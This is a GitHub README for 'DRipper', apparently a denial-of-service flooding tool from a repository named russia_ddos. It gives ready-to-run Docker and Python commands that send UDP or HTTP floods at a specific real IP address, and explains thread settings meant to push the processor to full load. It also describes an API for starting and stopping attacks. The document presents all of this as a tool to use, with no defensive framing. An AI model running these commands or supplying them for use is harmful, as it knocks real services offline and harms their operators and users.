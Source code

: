# Description
This is clone of one of ChameleonTartu repos!! 
Creds for original scripts to him!

https://github.com/ChameleonTartu

## Description

This is an optimized version of DRipper. Here is original code: https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54, you can see there a lot of cons like extra requests to Facebook and validator.w3.com, trying establishing connection with attacked resource (but there is no need in it if you want to send a UDP packet). Also the old version is inefficient: you need run several processes to have your processor busy.


## Usage
1. Docker

```bash
docker run -ti --rm alexmon1989/dripper:latest -s 213.24.76.23 -p 80 -t 100
```

2. Directly with Python.

Ensure you have Python 3 installed. Then clone this repo and run main.py with params you need:

-s - IP;

-p - port (default - random from (22, 53, 80, 443) for every packet sending);

-t - threads count. The most important setting. Try to keep the processor busy up to 100%.

-m - attack method: udp (default), http

-r - send packets with random length (up to 50 Kb, works only with UDP attack method)

--resources - name of the resource under attack

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# run
python -u DRipper.py -s 213.24.76.23 -p 80 -t 100 -r 1 -m udp
# OR
python3 -u DRipper.py -s 213.24.76.23 -p 80 -t 100 -r 1 -m udp
```


## API

API is a more convenient wrapper over start, stop, list processed for Dripper.py

```
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# run
pip install requirements.txt
# or
pip3 install requirements.txt

python api.py
# or
python3 api.py
```

Swagger documentation is under 

```
http://localhost:49155/docs
```

## Running test server

cd test-server/src
javac TestSocketServer.java
java TestSocketServer
